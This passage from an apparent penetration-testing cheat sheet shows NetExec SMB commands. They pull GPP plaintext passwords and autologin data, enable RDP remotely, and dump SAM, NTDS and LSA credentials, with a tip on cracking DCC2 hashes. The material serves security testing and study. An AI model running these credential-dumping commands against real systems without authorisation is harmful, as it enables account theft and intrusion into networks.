 #### GPP

{% tabs %}
{% tab title="Plaintext Creds" %}
Retrieve the plaintext password for accounts pushed through GPPs.

```bash
nxc smb <ip> -u <user> -p <pass> -M gpp_password
```
{% endtab %}

{% tab title="Autologin Info" %}
Search for `registry.xml` files for autologin information.

```bash
nxc smb <ip> -u <user> -p <pass> -M gpp_autologin
```
{% endtab %}
{% endtabs %}

#### RDP Enablement

```bash
nxc smb <ip> -u <user> -p <pass> -M rdp -o ACTION=enable
```

{% hint style="info" %}
_For **stealing hashes via writeable shares** via SMB using `slinky`, `drop-sc`, or `scuffy` check_ [_here_](../../services/shares/smb-139-445.md#hashes)_._
{% endhint %}

### Credentials

{% tabs %}
{% tab title="SAM" %}
```bash
nxc smb <ip> -u <user> -p <pass> --sam
```
{% endtab %}

{% tab title="NTDS" %}
```bash
nxc smb <ip> -u <user> -p <pass> --ntds --user <user>
```
{% endtab %}

{% tab title="LSA" %}
```bash
nxc smb <ip> -u <user> -p <pass> --lsa
```
{% endtab %}
{% endtabs %}

The hash format that starts with `$DCC2$` (derived from `--lsa`), which stands for _Domain Cached Credentials 2_, is **stronger than NTLM** and **cannot be used for a PtH attack**. For attempting to crack them, the domain and username needs to be removed; only the value starting with `$DCC2$` is required.
